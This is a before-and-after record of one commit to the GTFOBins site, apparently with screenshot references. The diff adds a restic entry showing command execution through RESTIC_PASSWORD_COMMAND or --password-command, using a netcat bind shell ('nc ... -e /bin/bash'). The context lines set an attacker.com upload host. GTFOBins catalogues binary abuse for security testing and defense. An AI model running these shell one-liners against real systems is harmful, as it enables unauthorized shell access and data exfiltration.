

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/restic.md, in a window 1280 px wide and 900 px high. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Add restic command
Signed-off-by: Juju <julien.clement@epita.fr>

```diff
--- a/_gtfobins/restic.md
+++ b/_gtfobins/restic.md
@@ -17,6 +17,11 @@ description: |
 
   Upload data to the attacker server with the following commands.
 functions:
+  command:
+    - description: The attacker does not need to setup a server to receive the backups in this case. Command execution can be achieved through control of argv or environment, many restic subcommands support this option, so even if the attacker control only a subset of argv, command execution may still be achievable.
+      code: |
+        RESTIC_PASSWORD_COMMAND='nc -l 127.0.0.1 -p 4321 -e /bin/bash' restic backup # Through environment
+        restic backup --password-command="nc -l 127.0.0.1 -p 4321 -e /bin/bash"      # Through option
   file-upload:
     - code: |
         RHOST=attacker.com
```
